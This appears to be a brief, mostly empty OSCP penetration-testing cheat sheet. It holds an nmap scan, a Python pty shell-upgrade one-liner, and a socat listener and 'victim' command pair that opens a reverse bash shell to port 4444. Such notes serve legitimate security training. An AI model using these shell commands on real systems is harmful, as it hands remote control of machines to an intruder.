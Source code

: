 # OSCP
Offensive Security Certified Professional is an ethical hacking certification offered by Offensive Security that teaches penetration testing methodologies and the use of the tools included with the Kali Linux distribution.
# Enumeration
## NMAP
nmap -sV -sS 127.0.0.1 (all ports)
## SMB
## Dirbuster
# Payloads
## msfvenom
# Brute Force
# Exploits
# Shell Upgrade
## Python
python -c 'import pty; pty.spawn("/bin/bash")'
## Socat
Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444  
Victim: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:4444


